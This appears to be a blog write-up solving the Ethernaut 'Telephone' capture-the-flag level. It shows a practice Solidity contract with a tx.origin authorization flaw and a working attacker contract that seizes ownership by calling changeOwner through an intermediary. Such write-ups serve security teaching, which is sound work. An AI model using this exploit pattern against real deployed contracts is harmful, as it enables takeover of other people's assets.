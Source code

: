 ```yaml
---
title: Ethernaut - Telephone - Solution
date: '2024-05-05'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the Ethernaut - Telephone CTF
---
```


# Ethernaut - Telephone - Solution

## Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```

## Exploit

To claim ownership of the above contract, we need to call `changeOwner()` while ensuring that `tx.origin != msg.sender`.
This is easily achieved by calling `changeOwner()` from the following attacker contract rather than our externally owned account:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract TelephoneAttacker {
    address public immutable VICTIM;

    constructor(address victim) {
        VICTIM = victim;
    }

    function attack() external {
        (bool success, ) = VICTIM.call(abi.encodeWithSignature("changeOwner(address)", msg.sender));
        require(success, "Attack failed");
    }
}
```